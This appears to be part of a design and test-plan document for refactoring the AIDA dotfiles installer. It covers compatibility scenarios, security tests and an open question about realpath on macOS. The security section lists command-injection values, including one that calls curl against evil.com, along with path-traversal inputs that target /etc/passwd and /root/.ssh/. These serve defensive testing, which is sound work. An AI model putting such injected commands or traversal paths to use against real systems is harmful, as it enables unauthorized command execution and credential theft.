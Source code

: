 - **Dotfiles installer** sources from ~/.aida/:
  - Compatible version: utilities load, dotfiles install succeeds
  - Missing AIDA: clear error, installation instructions
  - Incompatible version: version mismatch error, upgrade instructions
  - Corrupted AIDA (missing lib/): clear error, reinstall instructions

**Test Scenarios**:

1. AIDA standalone (current behavior)
2. AIDA refactored (sources from lib/)
3. Dotfiles with AIDA 0.1.2 (compatible)
4. Dotfiles with AIDA 0.1.0 (incompatible, too old)
5. Dotfiles without AIDA (missing dependency)

**Test Files**:

- `.github/testing/integration/test-aida-refactor.sh`
- `.github/testing/integration/test-cross-repo.sh`

### Security Testing

**Security Validation**:

- **Command injection tests**:
  - version="0.1.0; echo PWNED"
  - path="/tmp$(curl evil.com)"
  - name="test\`id > /tmp/pwned\`"

- **Path traversal tests**:
  - path="~/.aida/../../etc/passwd"
  - path="/tmp/../../../root/.ssh/"
  - Symlink to /etc/passwd

- **Permission tampering tests**:
  - chmod 666 ~/.aida/lib/installer-common/colors.sh (should reject)
  - chown other:other ~/.aida/VERSION (should reject)

**Test Files**:

- `.github/testing/security/test-command-injection.sh`
- `.github/testing/security/test-path-traversal.sh`
- `.github/testing/security/test-permission-tampering.sh`

**Penetration Testing**:

- Manual testing with malicious input
- Attempt to source from outside ~/.aida/
- Attempt to inject shell code via VERSION file

## Open Technical Questions

### Q1: realpath Availability on macOS

**Question**: Should we require realpath (via Homebrew) or provide fallback?

**Context**: macOS lacks GNU realpath by default. Options: require `brew install coreutils`, or fallback to Python/pure Bash.
